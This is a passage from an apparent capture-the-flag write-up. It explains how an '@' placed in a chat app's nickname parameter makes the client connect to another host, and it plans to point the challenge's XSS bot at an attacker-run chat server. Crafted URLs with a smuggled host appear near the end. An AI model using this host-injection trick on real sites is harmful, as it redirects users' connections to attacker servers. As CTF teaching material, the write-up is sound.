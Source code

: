 Here's a great explanation from: http://www.tcpipguide.com/free/diagrams/urlsyntax.png

![urlsyntax](http://www.tcpipguide.com/free/diagrams/urlsyntax.png)

Notice the regular expression seems to care a lot about `:` and `@`.  We can see above that these can be used to delimit the username and password in a URL.  In practice, nobody actually types URLs with passwords in them.   Right!?

I tried crafting query strings with these characters.  Watch what happens for this URL;

`http://47.254.28.30:58000/?nickname=guest@1912&room=textContent`

Notice I put a `@` character in the `nickname`!

This is what the dev tools `Network` tab shows:

![image-20230111212202157](./assets/chatuwu-network2.png)

It is trying to go to a Domain that starts with `1912`.  That's weird, right?

This is kind of like my `[]` behavior where it dropped out the first character of the domain.  It is just a different odd behavior.

Where did it get `1912` from?  These are the characters right after my `@` symbol in the nickname!

Remember in the URL syntax diagram, *if* there is an `@` symbol, the host name always comes right after it.  This is the spirit of what is at play here.

Given that we can trick it into visiting some other host for the Chat Room, how do we leverage that?

**Rough Plan**: Let's host our own chat room server and trick the XSS bot into visiting that!

First, some minor bookkeeping to clear up.  Notice how the domain also has the word `room` in it.  We don't want that.  We'll address that by putting `room` as the first query string and `nickname` as the second.  Here's an example:

`http://47.254.28.30:58000/?room=textContent&nickname=sam@my.fake-server`

![image-20230111212929657](./assets/chatuwu-network3.png)
